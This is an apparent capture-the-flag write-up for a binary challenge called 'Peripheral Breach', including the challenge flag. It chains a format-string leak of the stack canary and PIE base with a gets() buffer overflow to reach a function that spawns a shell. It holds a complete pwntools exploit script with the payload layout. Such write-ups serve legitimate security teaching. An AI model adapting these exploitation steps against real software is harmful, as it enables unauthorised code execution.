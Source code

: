 # Peripheral Breach - Writeup

---

## Exploit Demo

This demo illustrates the exploit process:

![Alt text](gif/PeripheralBreach.gif)

---

## Binary Inspection

We begin by analyzing the binary for reverse engineering and exploitation.

### Step 1: Checking binary format

```bash
$ file main
```

The binary is a 64-bit dynamically linked PIE executable, not stripped.

![Alt text](img/1.png)

---

### Step 2: Checking binary security

```bash
$ pwn checksec main
```

The binary is protected with:

- Full RELRO
- NX enabled
- PIE enabled
- Stack canary

![Alt text](img/2.png)

---

## Static Analysis (IDA Pro)

Reversing the binary with IDA Pro reveals two key vulnerabilities in the functions `print_job()` and `schedule_job()` that can be chained for a successful exploit.

### 1. `print_job()` – Format String Vulnerability

```c
snprintf(s, 0x200uLL, "Confirm printing: %s from %s", a1, a2);
printf(s);
```

![Alt text](img/3.png)

- User-controlled input is passed directly into `printf()` without a format string.
- This introduces a **format string vulnerability** that can leak:

  - The **stack canary**, required to bypass stack protection.
  - The **PIE base address**, necessary to defeat ASLR and locate internal functions or gadgets.

### 2. `schedule_job()` – Buffer Overflow via `gets()`

```c
gets(v3);
```

![Alt text](img/4.png)

- The buffer `v3` is 264 bytes on the stack.
- Since `gets()` does **not perform bounds checking**, this results in a **classic stack-based buffer overflow**.
- However, since the binary uses a **stack canary**, the canary must first be leaked (via `print_job()`) to exploit this safely.
- After bypassing the canary, the return address can be overwritten to hijack control flow.

---

## How to Solve

1. Trigger the format string vulnerability in `print_job()` to **leak the stack canary and PIE base** using format specifiers (e.g. `%p`).
2. Compute the correct **base address of the binary** and locate useful functions like `maintain()`.
3. Craft a payload that **overflows the buffer** in `schedule_job()` while preserving the leaked canary.
4. Overwrite the return address to jump to the `maintain()` function, which calls `system("/bin/sh")`.

---

## Vulnerability Summary

- **Format String** in `print_job()` → Leak **stack canary** and **PIE base**.
- **Buffer Overflow** in `schedule_job()` → Overwrite return address after bypassing canary.
- **Canary + PIE + NX + Full RELRO** → Strong protections, but all bypassable due to format string leak.
- **Goal**: Redirect execution to `maintain()` → `system("/bin/sh")`.

---

## Exploit Strategy

1. Input a **format string** (e.g., `%39$p %107$p`) into the filename and URL prompts to leak both:

   - Stack canary
   - PIE address of `main()`

2. Compute the PIE base and calculate the absolute address of the `maintain()` function.
3. Prepare a payload for the `gets()`-based overflow:

   - Padding up to the canary (264 bytes)
   - The **correct leaked canary**
   - Return address pointing to `maintain()`

4. Gain a shell via `system("/bin/sh")`.

---

## Exploit Script

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'main')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Full RELRO
# Stack:      Canary found
# NX:         NX enabled
# PIE:        PIE enabled
# Stripped:   No

io = start()


io.sendlineafter(b'? ', b's')
io.sendlineafter(b'filename to print: ', b'%39$p %107$p')
io.sendlineafter(b'Enter URL: ', b'URL')

data = io.recvline_contains(b'Confirm printing:').strip()
leak_vals = data.split(b' from ')[0].split()
log.info(f"raw leaks: {leak_vals}")

canary = int(leak_vals[2], 16)
main = int(leak_vals[3], 16)
log.success(f"canary = {hex(canary)}")
log.success(f"main = {hex(main)}")

exe.address = main - exe.sym['main']
log.success(f"PIE base = {hex(exe.address)}")

maintain = exe.symbols['maintain']
log.success(f"maintain() = {hex(maintain)}")

rop = ROP(exe)
ret = rop.find_gadget(['ret'])[0]


io.sendlineafter(b'Enter credentials: ', flat(
    b'A'*264,
    p64(canary),
    p64(ret),
    p64(ret),
    p64(maintain)
))


io.interactive()


```

---

## Result

After successful exploitation, the program executes:

```c
system("/bin/sh");
```

This gives us a shell to reveal the flag.

---

## FLAG

The flag will be displayed in the output after successful execution.

```
RedPointer{PhantomNetRelay0x10!}
```
